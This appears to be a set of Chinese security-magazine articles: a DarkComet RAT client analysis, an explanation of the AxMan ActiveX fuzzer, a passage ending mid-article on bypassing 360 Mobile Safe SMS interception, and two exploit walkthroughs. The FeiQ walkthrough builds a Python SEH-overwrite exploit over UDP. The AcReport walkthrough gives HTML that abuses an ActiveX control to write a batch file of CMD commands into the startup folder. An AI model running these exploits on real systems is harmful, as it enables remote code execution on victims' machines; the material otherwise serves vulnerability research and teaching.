查看有没有容易触发漏洞的敏感 API 函数，如 memcpy、strcat、strcpy 等。通过查找，发现使用了 lstrcpynW() 这个 API，如图 1 所示。


图 1 导入了 lstrcpynW() 函数

函数原型为“lstrcpynW(LPWSTR lpString1, LPCWSTR lpString2, int iMaxLength)”，当第一个参数过小时，会导致缓冲区溢出；当第二个参数 iMaxLength 的长度过大时，也会发生缓冲区溢出。

通过查询函数调用发现，共有 7 处调用了此函数，如图 2 所示。


图 2 调用 lstrcpynW 的函数

经过对汇编代码流程进行分析，发现默认情况下 iMaxLength 的长度为 0x105，第 3、4、5 处的调用存在可以修改 iMaxLength 的可能，可以重点进行分析，相关代码如下。

```asm
text:0040A4F2 ...
text:0040A4F4 jns short ...
...
push lpString1
call lstrcpynW
```

程序同样也使用 HeapAlloc、HeapCreate、VirtualAlloc 等分配内存的函数，但是由于 Windows XP SP3 及之后的操作系统堆溢出已经很难利用，于是放弃查找相关的敏感函数。

客户端程序使用与 wsock32.dll 相关的导出函数与服务端进行网络通信，如图 3 所示。


图 3 调用 wsock32 的导出函数

使用 recv() 函数来接收由服务端传回来的数据，并且在多个处理函数中调用了 recv() 这个 API 函数，如图 4 所示。


图 4 多个调用 recv() 的处理函数

静态的反汇编分析就到此，与服务端的通信都是通过 recv() 函数来接收的。远程数据接收以后接着进行的就是数据处理的流程，相应的分析过程在动态调试中完成。

配置服务端程序连接参数后，在 Windows XP SP3_Tw 的操作系统中执行 OD 载入 DarkComet.exe 程序，相应地在调用 recv() 函数的地址下断点。第一次就在 recv 的地方断了下来，代码如下：

```asm
text:00803B65 mov eax, esi
text:00803B67 mov [ebx+10h], ...
...
call sub_8037F8
push 0 ; flags
```

```asm
.text:00803B76    push 2000h ; len
.text:00803B7B    lea eax, [ebp+buf]
.text:00803B81    push eax ; buf
.text:00803B82    mov eax, [ebx+10h]
.text:00803B85    mov eax, [eax+44h]
.text:00803B88    push eax ; s
.text:00803B89    call recv
```

执行后接收的数据包为“08BDDF00 41 35 37 44 41 44 34 39 35 42 45 43 00 00 00 00 A57DAD495BEC...”，这是一段明文可见字符的数据。很明显，数据是经过加密处理的，存在相应的解密处理过程。

下硬件访问断点之后，在如下地址处断点：

```asm
.text:00408358 xor ecx, ecx
.text:0040835A test edx, edx
.text:0040835C jz short loc_40837F
...
.text:0040835F cmp cl, [edx]
.text:00408361 jz short ...
.text:00408363 cmp cl, [edx+1]
.text:00408366 jz short ...
.text:00408368 cmp cl, [edx+2]
.text:0040836B jz short ...
.text:0040836D cmp cl, [edx+3]
.text:00408370 jz short ...
.text:00408372 add edx, 4
.text:00408375 jmp short ...
```

上述代码就是客户端接收到数据的解密函数，寄存器信息如下：

```text
EAX 08BDDEFC
ECX 00000000
EDX 08BDDF00 ASCII "A57DAD495BEC"
EBX 05FCB1F0
ESP 08BDDE98
EBP 08BDFF70
ESI 0165E960
EDI 08ADFB84
EIP 00408361
```

其中 EDX 08BDDF00 ASCII "A57DAD495BEC" 即为需要解密的数据。程序在处理过程中会多次调用 recv() 来接受数据，需要花费大量时间做的工作是对接收到的数据包进行解密，解密之后进行数据包结构的分析，也就是所谓的拆包，弄明白每种包的数据结构及对应的含义。

## 2. 网络数据包分析

通过之前的分析得出，还需要分析客户端与服务端进行网络通信的数据包，因此使用 wireshark 工具进行数据包的截获，如图 5 所示。


图 5 截获到的数据包

- 1. 当客户端没有启动时，服务端会通过 TCP/IP 协议不停地发送连接的数据包，图中的阴影部分即为此部分数据。
- 2. 客户端启动后发送连接的数据包，并带有数据长度。
- 3. 加密后使用明文传输，每次发送的一个 TCP/IP 数据包的最大长度为 1024 字节，即每次最大发送 1KB 的数据。

截取到数据包之后，就需要对数据包加密的过程进行分析，这会花费相当长的时间，只能在后续的工作中完成。

### 服务端处理文件路径的 Bug

在分析主程序的过程中，发现服务端在处理文件夹目录时存在一个异常退出的情况，具体如下：

（一）在服务端操作系统中构造一个目录足够深的文件夹，即文件夹中嵌套文件夹，并在最深的文件夹中新建一个 11.txt 文档。


图 6 构造畸形文件夹

（2）客户端访问此文件夹，并修改 11.txt 的大小，如图 7 所示。此时若把 11.txt 文件修改为一个很大的值，则客户端失去服务端的连接，系统中相应的进程崩溃。


图 7 增加文件大小

### 远程溢出漏洞挖掘的前置条件

总结以上的分析可以知道，客户端与服务端的通信是通过 TCP/IP 协议且经过加密的，若要进行远程溢出的漏洞挖掘，需要完成以下几个工作才能进行。

- 1. 数据包加密算法解密。这是首先需要做的工作，只有把数据包解密以后才能进行数据包数据结构的分析，加/解密的算法不会很复杂，大概花费 3～4 个工作日就可以分析清楚。
- 2. 拆包。拆包的工作是最烦琐的，远控有很多种功能，包括文件浏览、命令执行、添加服务、信息探测等，每种功能都对应有特定的标志，每种功能对应数据包的格式也是不尽相同的，这需要通过大量的时间和精力去分析。
- 3. 模拟发送数据。最后要做的工作就是通过自己构造的数据模拟服务端正常登录上线，并发送大量数据结构合法的测试数据，进行漏洞挖掘操作。

### 总述

远控的分析需要花费大量的时间和精力去做，杀毒软件公司中除非是对影响范围非常大的僵尸网络才会进行大量的分析，一般普通的远控不会进行详细的分析。针对远控的客户端进行远控漏洞挖掘就少之又少了。

需要对远控的编写有一定的基础，对 TCP/IP 协议也要了解，反汇编解密数据也是必须的，最终的漏洞挖掘考验的是对程序数据包处理流程的理解。所有的这些都需要在没有源码的情况下完成，所耗费的时间会非常长，最短的时间也都是在 1 个月以上。

## AXMAN 工具原理解析


图/文 wjphero

前几年一直在进行 ActiveX 漏洞挖掘的研究，却一直没有将相关漏洞挖掘的经验总结下来，现在把这些经验总结一下，与大家交流分享。

ActiveX 漏洞挖掘领域有 5 款工具，分别为 Dranzer、axfuzz、COMRaider、AxMan 和 COMbust，其中 axfuzz 是这些工具的鼻祖，很多工具的底层都直接使用或借鉴了 axfuzz 工具。

axfuzz 为创建 Dranzer 工具提供了初始化模型。axfuzz 同时使用 axenum 程序和 axfuzz 工具来对系统上的软件进行评估，其中 axenum 程序用于枚举系统上的 COM 对象。axfuzz 本身设计比较简单，仅仅使用 0 和超长字符串“AAAA...”来对组件的属性和方法进行测试。重要的是，axfuzz 提供了两个非常好的基础软件 axenum 程序和 axfuzz 工具，这两款软件可以作为其他漏洞软件的底层接口。

AxMan 是一个基于 Web 的 ActiveX 的 fuzz 引擎。AxMan 的目标是通过浏览器发现 COM 对象中的漏洞。既然 AxMan 是基于 Web 的，那么浏览器的任何安全变化都将影响到 fuzz 进程的结果，这比起其他的基于 COM 的评估工具更具有贴近实战的效果。（这让我想起了在桌面上生成的一些莫名其妙的文件，这些文件说明了组件具有本地写的权限漏洞，这正说明了具有贴近实战的能力，因为跨域访问和浏览器的关系非常密切。）

### AxMan 工具架构

AxMan 的整体架构如图 1 所示，整个框架主要涉及 4 个文件，分别是 index.html、fuzzer.html、fuzzer.js 和 axman.js。


### index.html 文件

startFuzz() 函数首先检查当前浏览器窗口是否支持 ActiveX Object，然后对界面中的元素进行初始化。比如将 stop 按钮置为不可点击状态，将 start 按钮置为可点击状态，将 startSingle 按钮置为可点击状态，将 report 内容清空，然后执行 next() 函数……

startSingleFuzz() 函数中，首先检查当前浏览器窗口是否支持 ActiveX Object（Windows 是 JavaScript 中最大的对象，它描述的是一个浏览器窗口），获取 single 按钮（即 startSingle 按钮）后面的 clsid 文本框中的值（该值是 clsid 号）。获取该字符串后，查看该字符串的第一个字符是不是“{”，如果不是，则在刚才的 clsid 的前后附加“{”和“}”，这其实相当不完善，因为有可能出现这种情况：前面没有加“{”，但是后面加了一个“}”。之后对整个 ax_objects 进行遍历，找出值等于 clsid 的 ax_objects。如果找到，则将 stop、start、startSingle 键进行初始化，并将 report 变量进行初始化，再执行 next()。

### fuzzer.html 文件

fuzzer.html 和 fuzzer.js 主要用于实现挖掘的步骤和流程，如图 2 所示。


AxManLoadObject() 函数中的 obj=document.getElementById('target').object 很重要，该 obj 先传给 fuzzMethods(obj)，再传给 fuzzMethodArgs(obj,f['Name'],f['ArgCount'],new Array())。这个 obj 是什么？到底起什么作用呢？其实这里的 target 类似于 `<object classid='clsid:F43B35B7-C29A-453F-86E9-C37412269D62' id='target'></object>` 中的 target，我们平时在使用 ActiveX 时都要用到上面这句代码，并且一般情况下是利用 target.xxx() 的方式来调用某个函数的。这里的 document.getElementById('target').object 应该类似于 target.object，意思可能是获取该接口类对象。

AxManFuzz() 函数通过 createEvilPropArgs() 生成恶意参数值，通过 fuzzReadProperties(obj) 试着访问所有属性，通过 fuzzReadWriteProperties(obj) 试着设置所有属性，通过 fuzzNumericProperties(obj) 试着设置所有的属性为数字，通过 fuzzStringProperties(obj) 试着设置所有的属性为字符串，通过 fuzzObjectProperties(obj) 试着设置所有的属性为对象，通过 destroyEvilPropArgs() 试着销毁所有的属性参数，通过 fuzzMethods(obj) 对函数进行 fuzz 测试。

对于 fuzzMethods(obj) 函数，可以具体深入到每个 {xxx}.js 文件中看看，ax[clsid] 其实是一个多维数组，代码如下：

```javascript
ax[ax_name] = new Array();
ax[ax_name]['Info'] = 'DfrgCtl Class';
ax[ax_name]['ProgID'] = 'DfrgCtl.DfrgCtl.1';
ax[ax_name]['Filever'] = 'C:\\WINDOWS\\system32\\dfrgui.dll';
ax[ax_name]['NotSafe'] = true;
ax[ax_name]['FunctionCount'] = 24;
ax[ax_name]['Functions'] = new Array();
```

ax[ax_name]['FunctionCount'] 中存放的是接口中函数的个数。ax[ax_name]['Functions'] 存放的是一个多维数组，该数组的每一维代表了一个函数，每一维又是一个数组。其功能描述如下：

- 因为 ax[clsid]['Functions'] 是多维数组，每一维代表了一个函数，那么“var fs=ax[clsid]['Functions'];”的意思就是取整个多维数组。
- 以函数的个数 ax[ax_name]['FunctionCount'] 为界，对 ax[clsid]['Functions'] 数组进行遍历。
- 跳过所有的属性，属性不需要在这里测试。
- 跳过所有的 bad method。
- 初始化状态条用于进度显示，“window.status = clsid + " Method (Init) " + f['Name'];”。
- 调用 createEvilMethArgs(f['ArgCount'])，其中 f['ArgCount'] 代表了某个函数中参数的个数。

`createObject()` 函数的形式如下：

```javascript
function createObject() {
```

```javascript
var cls = clsid.substring(1, clsid.length - 1);

document.getElementById(axcontainer).innerHTML =
    "<" + "object id='target' classid=\"CLSID:" + cls + "\" ></object>";
```

其中 clsid 的值是类似于 `{0A2A6ED1-D3F1-4A81-853D-93EC830CE388}` 这种形式，因此，cls 的值是 `0A2A6ED1-D3F1-4A81-853D-93EC830CE388`。并且还要知道，如果想利用网页对 ActiveX 进行测试，网页中的代码必须具有类似下面的形式：

```html
<object classid='clsid:F43B35B7-C29A-453F-86E9-C37412269D62' id='target'></object>
```

因此会有语句 `"<"+"object id='target' classid=\"CLSID:"+cls+"\" ></"+"/object>";`。

我们最终可以发现，axcontainer 元素中存放的页面语句包含了 `"<"+"object id='target' classid=\"CLSID:" + cls + "\" ><" + "/object>";`。

### fuzzer.js 文件

在 fuzzMethods(obj) 函数内，调用了 fuzzMethodArgs 函数。fuzzMethodArgs 函数调用时传入的参数为 fuzzMethodArgs(obj, f['Name'], f['ArgCount'], new Array())。函数 fuzzMethodArgs(obj, meth, argc, argv) 的整体框架如下：

```javascript
// part I: Arguments are set, make the call
{
    // Write this to the status bar
    // Execute the method
}
// part II: Simple test for many-argument methods;
// 实现 MethArgsFast 情况下的参数的组合
{
    // Numeric testing
    // String testing
    // Object testing
}
// part III: Slow mode testing - all permutations of args;
// 实现 MethArgsSlow 情况下的参数组合
{
    // Copy current args
    // What index does this level set?
    // Numeric testing
    // String testing
    // Object testing
}
```

从上面的 fuzzMethodArgs 函数的框架可以看出，fuzzMethodArgs 函数要处理整个 fuzz 过程，这个过程虽然不包括生成畸形参数，但是需要将畸形参数进行排列组合并传入到被测函数中。在函数 fuzzMethodArgs 开始执行的时候，argv 参数是空。（也不能完全说是空的，其实传入的参数是 `new Array()`，该数组没有任何数据）。因为该函数调用函数时，为 `fuzzMethodArgs(obj, f['Name'], f['ArgCount'], new Array());`，最后传入的是空参数。

函数开始运行的时候，不会先执行 part I 部分，而是根据情况先执行 part II 或 part III 部分。part II 或 part III 部分的功能就是对参数进行排列组合，经过几轮后，参数组合排列出来，再使用 part I 部分对函数进行测试。

大体思路是这样的：当函数有 1 个参数或 4 个以上参数时，3 种畸形数据（数字、字符串和对象）每次仅使用一种。这对于一个参数好说，对于 4 个参数的函数时，就是以这一种畸形数据分别对函数的 4 个参数来测试，所有这些参数都是一个畸形数据。比如说上面的 part II 部分，代码如下：

```javascript
// Numeric testing
for (var eidx in evilMethNum) {
    var argx = new Array();
    for (var x = 0; x < argc; x++)
        argx[x] = new Array(tNum, eidx);
    fuzzMethodArgs(obj, meth, 0, argx);
}
```

先取一个畸形数字类型，然后构造函数的 n 个参数（`n ≥ 4`），每个参数都设定为当前取的这个畸形数字类型。在这里代入每个参数的其实是一个只有两个元素的数组 `new Array(tNum,eidx)`，前一个元素说明是一个数字类型，为了说明后一个元素的类型，后一个元素是具体的畸形数据。可见上面的 argx 并非函数最终使用的参数，因为参数不可能为数组，因此还要经过 part I 的转换。

最后的 part III 最终带入的函数是 `fuzzMethodArgs(obj,meth,0,argx);`，我们可能会由此想到函数是要进入 part II，其实不然，因为 `if (argv.length == 0 && (argc > evilMethSlowMax || argc < evilMethSlowMin))` 中的 `argv.length` 不等于 0，所以进入的是 part I。

part III 部分的实现思路是这样的：在 `fuzzMethodArgs(obj, meth, argc, argv)` 函数中，先生成一个 argx 数组，对 argv 进行遍历，将 argv 中的值全部传给 argx；计算 argx 数组的长度并赋值给 argi；eidx 为畸形数据，将元素 `new Array(tNum,eidx)` 赋值给 argx 数组的最后一个元素 `argx[argi]`；递归执行 `fuzzMethodArgs(obj, meth, argc - 1, argx);`，其中带入 `argc-1` 比较反常。

如果是 `importCert(a,b,c)` 函数，则按以下步骤执行：

- 1. `fuzzMethodArgs(obj, f['Name'], f['ArgCount'], new Array());` 即：`fuzzMethodArgs(obj,"importCert",3,new Array())`。
- 2. `fuzzMethodArgs(obj,"importCert",2,new Array((0,0)))`，其中 `(0,0)` 为一个元素。
- 3. `fuzzMethodArgs(obj,"importCert",1,new Array((0,0),(0,1)))`。
- 4. `fuzzMethodArgs(obj,"importCert",0,new Array((0,0),(0,1),(0,2)))`。

当 `fuzzMethodArgs` 函数的第 3 个参数为 0 时，就进入 part I 部分执行：

```javascript
mcall = obj.importCert(targv[0], targv[1], targv[2]);
info = obj.importCert(evilMethNum[0](xxxx), evilMethNum[0](xxxx), evilMethNum[1](xxxx));
```

### axman.js 文件

`axman.js` 文件主要用于构造畸形数据。`createEvilMethArgsSlow(argc)` 和 `createEvilMethArgsFast(argc)` 之间的区别是什么？如果参数个数为 2 或 3，那么程序的参数采用 `createEvilMethArgsSlow(argc)` 构造方式。如果参数个数是 1 或者是 4 个以上（包括 4 个），则采用 `createEvilMethArgsFast(argc)` 构造方式。

函数参数的复杂度取决于两个要素，一是单个类型参数的复杂度，二是多个参数排列组合的复杂度。如果参数个数是 2 个或者 3 个，那么为了体现排列组合方面的复杂度，将适度减少单个类型参数的构造复杂度。如果参数个数是 1 或者是 4 个以上（包括 4 个），那么为了不使参数过于复杂，将取消排列组合方面的复杂度，但不会减少单个类型参数的构造复杂度。从参数类型的构造可以看出来，参数的构造反映的是参数之间复杂的联系，在参数个数过多的情况下，将不再考虑参数之间的联系。

与之相对的另一种思路是：随着参数从少到多，单个参数的构造复杂度将减小，参数之间的组合复杂度也随之减小。但是这种思路过于平均主义，不能抓住事物的本质，不是一个好方法。

对于 `createEvilMethArgsSlow(argc)` 来说，当参数只有 1 个的时候不用说，就是用 3 种类型的参数轮换着去试，分别以数字、字符串和对象去试，当有 4 个或 4 个以上参数时，就是分别拿 3 种类型的参数在 4 个参数上去试，剩下的参数给一个正常值。

由于在构造单一参数上，`createEvilMethArgsSlow(argc)` 仅仅是 `createEvilMethArgsFast(argc)` 的一个子集，所以下面将重点阐述 `createEvilMethArgsFast(argc)` 的构造方法。

从这里也能够看出在架构设计时安全性上的考虑。为了提高模块的安全性，应尽量减少函数接口的参数个数，在函数之间关系的复杂性和函数内部复杂性之间做一个很好的取舍和分割，这样才能最大限度地保证软件的安全。

### 总结

应该说整个软件工具的编程思想并不复杂，没有什么太多实质性的东西，唯一难度稍大的是对于多参数函数漏洞挖掘的处理。由于多个参数进行漏洞挖掘时要进行排列组合，会导致测试样本呈指数级增长，因此作者对于多参数函数下的挖掘工作进行了简化。个人的观点是，可以先借助动态污染的思想找出多个参数之间的相关性，只有相关性达到或超过制定的阈值，所涉及的参数才进行排列组合，这样才能更充分测试。关于函数之间的相关性，测试过程中发现两个函数 A 和 B，如果先测试 A 函数再测试 B 函数，那么 B 函数将溢出报错；如果先测试 B 函数，将没有错误产生，经过事后验证发现，两个函数存在相关性，A 函数内的部分数据会被 B 函数使用，这样会造成某些隐藏漏洞的出现。除此之外，软件的很多方面还是很值得我们参考和学习的。

## 利用 pvefindaddr 编写飞秋漏洞利用程序


图/文 彭毅

`pvefindaddr` 插件是 Immunity Debugger 调试器的一个脚本插件，提供了快速定位缓冲区溢出点的各项常用功能，使得编写漏洞利用程序更为简单快速。

这里我们通过调试修改一段飞秋远程溢出程序，一起感受一下 `pvefindaddr` 插件的魅力。飞秋的这个远程溢出漏洞，由 artake 在看雪论坛上首次公布其漏洞细节，并发布了 POC 代码（http://bbs.kanxue.com/showthread.php?t=143197）。不过这个 POC 代码写得不是很清楚，还需要自己重新探索构造才来得真切一些。

飞秋这个漏洞的具体技术细节这里就不重复了，我们只讨论通过 `pvefindaddr` 插件进行利用程序的开发流程。首先应安装好 Immunity Debugger 调试器，然后从 `http://redmine.corelan.be:8800/projects/pvefindaddr/repository/show/trunk/v1.8` 网站下载 `pvefindaddr` 插件，将其复制到 Immunity Debugger 调试器安装目录的 PyCommands 子目录，如图 1 所示。

## 漏洞攻防


图 1

用 Immunity Debugger 调试器打开飞秋应用程序“飞秋FeiQ.exe”并运行。我们先构建一个简单 POC 程序，造成其溢出。根据 artake 的 POC 程序，用 Python 编写代码如下：

```python
import struct
import socket
addr = ('192.168.223.129', 2425)
# head length = 89
head = '...'
junk = 'A' * 10000
payload = head + junk
skt = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
skt.sendto(payload, addr)
skt.close()
```

上面的代码中，addr 为 IP 地址和端口对，测试的时候可以根据自己的测试环境进行修改。head 为触发需要的特定报文头，junk 为我们构造的触发数据包。运行程序，飞秋溢出漏洞被触发，Immunity Debugger 调试器截获了异常，如图 2 所示。


图 2

现在我们开始用 pvefindaddr 插件来进行漏洞利用程序的辅助开发。首先在 Immunity Debugger 窗口下方的命令输入框输入“!pvefindaddr”并按回车键，再按 Alt+L 组合键调出 Log 窗口，可以看到 pvefindaddr 的帮助文档，如图 3 所示。


图 3

pvefindaddr 插件有很多有用的功能，这里我们只使用几个常用的功能。漏洞利用程序首先需要解决的就是溢出点定位的问题。C 语言中有很经典的溢出点定位方法，而使用 pvefindaddr 插件定位更加快捷便利。输入命令：“!pvefindaddr pattern_create 10000”，生成 10000 字节的字模数据块，并存放于 mspattern.txt 文件中，可以在 Immunity Debugger 的安装目录下找到该文件，如图 4 所示。


图 4

该文件包含了我们生成的 10000 字节的字模数据。现在修改刚才的利用程序，把“junk = 'A' * 10000”一句替换为我们的字模数据，如下所示（由于数据过长，这里显示不完整）：

```python
junk='Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab...'
```

重新运行挂接了飞秋程序的 Immunity Debugger，再次运行我们的 POC 程序触发漏洞，此时直接在 Immunity Debugger 命令输入框中输入：`!pvefindaddr findmsp`，就可轻松定位程序溢出点，如图 5 所示。


如果你是初学者，面对溢出点无所适从的话，pvefindaddr 插件也提供了一个很好用的命令，可以输入：`!pvefindaddr suggest`，这样 Log 日志窗口不但会显示出程序溢出点位置，还能给出 pvefindaddr 建议的漏洞利用代码，如图 6 所示。


从图 6 可以看到，pvefindaddr 插件不但给出了漏洞利用的 Perl 代码，还建议使用 `!pvefindaddr p -n` 命令来查找 pop pop ret 代码地址，对初学者可谓考虑周到。好了，现在我们可以构造自己的 POC 程序了，代码如下：

```python
import struct
import socket

addr = ('192.168.223.129', 2425)
# head length = 89
head = '...'

junk = '\x41' * 7406
nseh = '\xeb\x06\x90\x90'
seh = struct.pack('<L', 0x7FFA1571)
nops = '\x90' * 24
shellcode = ''

payload = head + junk + nseh + seh + nops + shellcode

skt = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
skt.sendto(payload, addr)
skt.close()
```

上面的代码没有写 shellcode，大家可以通过 Metasploit 生成自己需要的 shellcode。比如在 POC 中，我生成了一段用户名和密码都为 abc 的 shellcode。POC 程序运行前后的效果如图 7 所示。


由此可见，pvefindaddr 插件极大地提高了我们开发漏洞利用程序的效率。无论你是老手还是新手，都能从 pvefindaddr 插件中找到喜欢的功能。另外，该插件的作者已不再对其进行更新，而是推出了其升级插件 mona，在使用方法基本不变的基础上，又增加了更为丰富的功能，大家可以下载来体验一下。

## 挖掘 AcReport 报表远程植入命令漏洞


图/文 爱无言

工作中需要使用报表工具，乙方公司提到了一款名为“AcReport”的报表工具，上网搜索到一些相关信息：“Anycell Report（简称 AC Report）是一款中国式报表组件，是国内最早的基于表格、支持图文混排、公式和脚本的中国式报表工具之一。就如 Anycell Report 的名称那样，灵活强大的表格功能一直是 AC Report 区别于其他软件或控件最显著的特征之一，AC Report 表格取消了传统表格概念中‘列’的概念，每一行上的单元格数量可以不等，且可以自由活动，调整某行上单元格的宽度时，不影响其他行中的单元格。在制作复杂的中国式报表时可以避免很多不必要的合并拆分操作，制作表格更加方便和随心所欲，并且省时省力。AC Report 单元格支持多种丰富的形态，如格式化文本、图片、图表、条码、OLE 容器等。”看起来非常不错，而且该软件的开发人员估计也常混迹于 CSDN，技术方面绝对可以肯定。但是，由于工作性质要求安全问题必须放在首位，如此一来，只好对该软件进行一些安全测试，漏洞也就由此发现了。

被测试的软件版本为“AcReport2.70_pub”，该软件下载后为一个压缩包，可以自行按照其中的说明书来注册使用该软件。AcReport 提供了两个 ActiveX 控件，一个为 AcReport 报表引擎文件 AcReport.dll，一个为 AcVisualControls.ocx，即 ActiveX 控件主文件。这里只针对 AcVisualControls.ocx 文件进行安全测试。

用 OLEView 查看 AcVisualControls.ocx 文件注册的组件信息，发现其注册了两个 COM 类，分别是 AcWebClientView 和 AcDesignerView。我们写了一段代码来检测 AcDesignerView 这个 COM 类，代码如下所示。

```html
<object
classid="clsid:808171F3-63C5-4B2C-AD99-7E7A24A10948"
name='evil' width=600 height=600></object>
<script>
try{
document.write(evil.LoadReportFromFile("c:\\00.apt"));
}
</script>
```

其中，“LoadReportFromFile”是 AcDesignerView 的一个外部接口，它的作用为加载报表文件。“00.apt”是 AcReport 报表文件存储类型，AcReport 报表自带了很多 apt 样例，它们放置在 AcReport 解压后的“demos\reports”文件目录下。正常加载报表文件后的浏览器显示效果如图 1 所示。


图 1 正常加载报表文件后的 IE 显示效果

在正常加载报表文件过程中，浏览器会出现闪烁效果，这估计是 AcReport 报表加载报表时有一个瞬间的界面显示所造成的闪烁。既然有加载报表文件，那么就应该有导出报表文件的外部接口，很幸运，我们找到这个函数的名称为“SaveReportToFile”。此时，我们猜想，如果可以修改报表文件内容，利用 AcDesignerView 的报表加载和导出接口，是不是可以将我们需要的内容写入到指定文件当中呢？于是，我们写了一段新的测试代码，如下所示：

```html
<object classid="clsid:808171F3-63C5-4B2C-AD99-7E7A24A10948" name="evil" width=600 height=600></object>
<script>
try {
  document.write(evil.LoadReportFromFile('c:\\00.apt'));
  evil.SaveReportToFile('c:\\1.bat');
} catch(e) {}
</script>
```

测试发现，AcDesignerView 果然在导出报表时不区分最终生成文件后缀名，这意味着，如果我们可以修改 apt 文件内容，就可以将修改后的内容写入到本地磁盘上，并且保存为任意格式，这里甚至包括二进制可执行文件格式。

利用 WinHex 打开 apt 文件，我们发现，该文件其实就是一个复合数据文件，其中包含报表中格式文档的原始数据，如图 2 所示。


图 2 apt 的数据格式

这种未公开的数据格式虽然有规律可循，但是随意地修改会引发数据被破坏，最终 AcReport 报表将不会打开该错误报表文件，导致后面的导出保存步骤无法执行。

经过一定时间的摸索，我们发现，可以在 apt 的头部插入 CMD 命令，并且不会破坏 apt 数据格式，如图 3 所示。


图 3 在 apt 文件中插入 CMD 命令

将该 apt 文件保存，利用前面的测试网页代码，我们准备将带有 CMD 命令的 apt 文件导入成为一个批处理格式的文件，看一看数据会不会发生变化。测试发现，AcReport 报表在处理 apt 文件时，具有一定的容错性，可以将我们包含有 CMD 命令的 apt 导出并保存在本地磁盘上，成为批处理文件。此时，如果导出的文件被保存到用户的启动目录下，那么我们的 CMD 命令就可以远程获得执行的机会了，如图 4 所示。


图 4 导出的 bat 文件可以成功运行植入的 CMD 命令

这种远程的 CMD 命令植入式漏洞，在局域网环境内部非常好用，如果存在该漏洞的 ActiveX 控件的外部接口支持远程 URL 加载文件，那么，就可以在互联网上大显神威。其实，AcReport 报表出现漏洞的地方远不只这一处，很多地方还存在可以被有效利用的安全漏洞，诸如信息泄露漏洞。读者有兴趣可以自行挖掘测试一番，有什么心得体会拿出来一起分享。最后，请不要利用该漏洞进行任何违法活动，否则后果本人与杂志概不负责。有任何问题，欢迎大家来我的博客 http://hi.baidu.com/digexploit 上一起讨论。

前置知识：Java

关键词：Android 360


## 五谈 360 手机卫士的三大防护

图/文 非虫

360 作为国内专业的安全公司，在安全界的水平是有目共睹的。我们抛开它在经营与病毒防治上的一些极端措施，就其产品技术性而言，是广大安全爱好者应该学习的。今天与大家探讨一下在 Android 平台上 360 手机卫士这款产品其本身的安全性，并将自己研究时的一点小成果拿出来与大家分享。Android 手持设备的私密性注定了这是一个敏感话题，在开始本文前，笔者郑重声明：本文的宗旨是让大家看到 Android 平台可能的攻击方式，仅供技术学习交流，任何个人与组织不得用文中提到的技术手段对其他人或组织进行非法攻击，由此带来的一切法律责任本人概不负责。

### 1. 测试环境

360 手机卫士不支持在模拟器上使用。我使用 ROOT 过的（本文所有研究测试条件建立在手机已获得 ROOT 权限的情况下）国行 MOTO XT615 进行安装测试，而 360 的版本选择了最新的“360 手机卫士贺岁版 2.5.1”。APK 的反编译工具出于方便的原因而选择了 ApkTool_GUI，Smali 代码的查看与分析选择了 EditPlus（IDA PRO 6.1 也可以，只是对包名的显示不太友好，自己写插件的话也行，不过不在讨论范围）。另外 ApkTool_GUI 有个 dex2jar 功能，也可以做辅助分析（只是生成的代码不是很准确，对于 synthetic 类型的方法不生成代码）。编写与调试代码用到了 Eclipse，调试信息的查看与 XML 文件的导出用到了 DDMS。准备好调试环境后，正确安装 360 手机卫士，开始 360 保护功能的艰苦分析之旅吧！

### 2. 短信拦截

360 手机卫士第一个强大的功能就是垃圾短信与电话的拦截，它的实现方式主要是通过创建广播对信息与电话进行拦截，然后将其阻断。

打开“AndroidManifest.xml”文件，会发现里面有一个名为“com.qihoo360.mobilesafeguard”的 provider，然后是 N 多的 service 与 receiver，短信的拦截就用到了下面这个 receiver：

```xml
<receiver android:name=".mms.receiver.MmsReceiver">
    <intent-filter android:priority="2147483647">
        <action android:name="android.provider.Telephony.WAP_PUSH_RECEIVED"/>
        <data android:mimeType="application/vnd.wap.mms-message"/>
    </intent-filter>
    <intent-filter android:priority="2147483647">
        <action android:name="android.provider.Telephony.WAP_PUSH_RECEIVED"/>
        <data android:mimeType="application/vnd.wap.sic"/>
    </intent-filter>
    <intent-filter android:priority="2147483647">
        <action android:name="android.provider.Telephony.WAP_PUSH_RECEIVED"/>
        <data android:mimeType="application/vnd.wap.slc"/>
    </intent-filter>
</receiver>
```

Android 的广播有无序广播与有序广播两种，静态注册的广播属于有序广播，通过设置“priority”来设置广播优先级。系统默认设置范围是 -1000 ~ 1000 之间，但 SDK 中可能没有明确的数值限定。可以看到 360 将 priority 设置为了 2147483647，也就是 32 位有符号数的最大值优先级。Android 系统会首先响应优先级高的广播，然后响应优先级低的；另外动态注册的广播又比静态注册的广播优先级高。如果优先级相同就响应最早安装的程序，而优先级是“adb install”高于“adb push 后安装”方式。

运行 360 手机卫士，可以看到它启动了一个进程与 5 个服务，服务名分别为“NetTraficService”“safeGuardMmsService”“PowerCtlService”“SafeManageService”“SafeGuardCallService”。在“safeGuardMmsService”的 onCreate() 方法中又创建了级别最高的动态广播接收者。具体分析代码我下面会讲到（360 所有服务位于“smali\com\qihoo360\mobilesafe\service”文件夹下，所有的广播接收者位于“smali\com\qihoo360\mobilesafe\receiver”文件夹下）。手动杀掉 360 进程根本不影响短信的拦截，下面说一下过掉 360 短信拦截的两种思路：

- 360 短信拦截借助了自己优先响应广播的优势，获取信息后就中断了广播。我们要做的是在它之前先响应广播，而且 360 在静态广播中创建了服务，并再次动态创建了同类型的广播接收者，所以优先级很高。要过掉它我们就必须在它的前面注册广播接收者，或者干掉它所有的进程与服务，不让它运行。显然后者动作太过于明显，不太适合。
- 将 APK 编译成系统程序，如加入系统进程、使用 Framework 的签名文件进行签名等，这样可能会优先接收到广播。不过由于时间原因，未测试此方法是否可行。

上面第一种思路是分析所得的结果，思路如下：首先，要知道 360 是何时注册的广播接收者。打开“smali\com\qihoo360\mobilesafe\receiver\MessageReceiver.smali”文件，它就是短信接收者，直接看“onReceive(Landroid/content/Context;Landroid/content/Intent;)V”，代码如下：

```smali
.method public
onReceive(Landroid/content/Context;Landroid/content/Intent;)V
    .locals 5
    const/4 v4, 0x0
    sget-boolean v0, Lcom/qihoo360/mobilesafe/service/MobileSafeService;->c:Z
    if-eqz v0, :cond_0
    sget-boolean v0, Lcp;->f:Z
    if-eqz v0, :cond_1
    ...
```

```smali
cond_0
goto_0  # MobileSafeService->c 与 cp->f 条件判断
